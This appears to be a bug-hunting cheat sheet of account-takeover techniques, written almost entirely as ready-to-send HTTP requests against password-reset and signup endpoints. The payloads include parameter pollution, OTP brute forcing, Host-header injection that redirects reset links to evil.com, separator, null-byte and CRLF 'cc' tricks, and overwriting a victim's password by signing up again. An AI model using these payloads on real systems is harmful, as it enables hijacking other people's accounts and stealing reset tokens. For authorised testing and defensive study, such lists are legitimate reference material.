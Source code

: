 ```yaml
---
title: Account Takeover Tips
author: Elsfa7-110
categories: [XSS, ATO]
tags: [ATO]
pin: true
---
```

## Account Takeover

1. Parameter pollution in reset password
```
POST /reset
[...]
email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset
[...]
email=victim@mail.com,hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%20hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com|hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset
[...]
email=victim
```

6. No TLD in value of the parameter
```
POST /reset
[...]
email=victim@mail
```

7. Using carbon copy
```
POST /reset
[...]
email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. Try re-sign up using same email
```
POST /newaccount
[...]
email=victim@mail.com&password=1234
```
After sign up using victim email, try signup again but using different password
```
POST /newaccount
[...]
email=victim@mail.com&password=hacked
```

9. If there is JSON data in body requests, add comma
```
POST /newaccount
[...]
{“email”:“victim@mail.com”,”hacker@mail.com”,“token”:”xxxxxxxxxx”}
```

10. Account takeover after login (Work if inside the website there is "Connect to facebook/twitter/etc")
  - First, login to the website using victim email
  - Find "Connect to facebook/twitter/googleplus" or something like that
  - Connect to attacker twitter
  - After logout you can login using the twitter
